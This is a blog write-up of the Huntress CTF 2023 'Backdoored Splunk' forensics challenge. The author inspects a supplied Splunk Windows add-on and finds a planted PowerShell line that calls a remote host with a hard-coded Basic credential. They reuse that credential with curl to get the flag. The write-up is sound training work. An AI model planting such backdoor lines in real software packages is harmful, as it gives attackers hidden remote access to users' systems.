 ```yaml
---
title: "Backdoored Splunk"
date: 2023-10-07T13:08:05-10:01
#draft: true
tags: ['CTF','Writeups', 'Forensics', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/where_am_i) 

### You've probably seen Splunk being used for good, but have you seen it used for evil?

We were given a 'Splunk_TA_windows.zip' file to download.Once the contents were extracted we are given several directories and files to inspect.

Furthermore, by curling the provided url we get the following response: 
```bash
curl http://chal.ctf.games:30644/                                                                                                                  
{"error":"Missing or invalid Authorization header"}
```
It seems as though we are missing an Authorization header in the request. We can then see if there is one present in the extracted files using:
```bash
grep -ri Authorization 
```
We get a hit in the results that looks promising: 
![splunk2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)


```bash
bin/powershell/nt6-health.ps1:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```
We decided to try to curl the url and included the paramater like so:
```	bash					

curl http://chal.ctf.games:30644/ -H Authorization:"Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="
```
We were given a response this time with a base64 encoded message. We were able to decode the response and submit the flag!
![splunk](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/where_am_i) 

